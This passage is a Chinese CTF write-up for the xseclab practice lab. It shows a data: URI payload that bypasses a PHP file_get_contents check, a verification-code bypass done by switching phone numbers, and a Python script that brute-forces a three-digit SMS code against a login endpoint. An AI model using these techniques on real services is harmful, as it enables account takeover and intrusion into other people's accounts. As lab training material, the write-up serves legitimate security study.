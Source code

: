 ```php
    if ($smile) { 
        $smile = @file_get_contents ($_GET['^_^']);  
        if ($smile === "(●'◡'●)") die($flag);  
    }  
?>
```

1. 原来是带有笑脸的get参数。。。。，找找度娘
2. 从源码中可以发现屏蔽了ftp和http协议且要是文件，通过php手册或者度娘可以用
Data协议，所以可以构造http://lab1.xseclab.com/base13_ead1b12e47ec7cc5390303831b779d47/index.php? ^.^=data:text/html;charset=unicode,(●’◡’●)
3. 一定要记住对微笑进行转码，我就在这里卡了半天，到最后发现是没有转码，郁闷！！所以转码可得payload:http://lab1.xseclab.com/base13_ead1b12e47ec7cc5390303831b779d47/index.php?^.^=data:text/html;charset=unicode,%28%E2%97%8F%27%E2%97%A1%27%E2%97%8F%29

## 第九题：
>逗比的手机验证码 分值: 150 
你的手机号码是13388886666，验证码将会以弹窗的形式给出
[地址]:(http://lab1.xseclab.com/vcode5_mobi_5773f3def9f77f439e058894cefc42a8/)

- 步骤：获取手机号码验证码后换号码登录
![图片.png](http://upload-images.jianshu.io/upload_images/4838174-bd29a75a6fb3d54a.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
轻松拿到key

## 第十题：

>基情燃烧的岁月 分值: 150 
Tips:你是一名黑客，你怀疑你的“（男/女）闺蜜”的出轨了，你要登陆TA手机的网上营业厅查看详单，一探究竟！ 闺蜜手机号码:13388886666
[地址]:(http://lab1.xseclab.com/vcode6_mobi_b46772933eb4c8b5175c67dbc44d8901/)

__思路：获取验证码__
![图片.png](http://upload-images.jianshu.io/upload_images/4838174-df8d2d0d7b6f205e.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
看来又得写脚本便利了，验证码肯定为100-999
用之前通关代码稍微修改下，变废为宝
```python
import requests
import re
s=requests.Session()
url="http://lab1.xseclab.com/vcode6_mobi_b46772933eb4c8b5175c67dbc44d8901/login.php"
head={'cookie':'PHPSESSID=844e5142519e671ce9180b9a47588675'}
for num in range(100,1000):
    data={'username':'13399999999','vcode':num,'Login':'submit'}
    res=s.post(url,data=data,headers=head).content.decode('utf-8')
    print(res)
    if u'pwd error' in res:
        print('正在尝试',num,'-----密码错误！')
    if u'vcode error' in res:
        print('验证码错误，请重新查看并输入正确验证码！')
    # print(res)
    if u'error' not in res:
        print(num,'-------正确')
        print(res)
        break
```
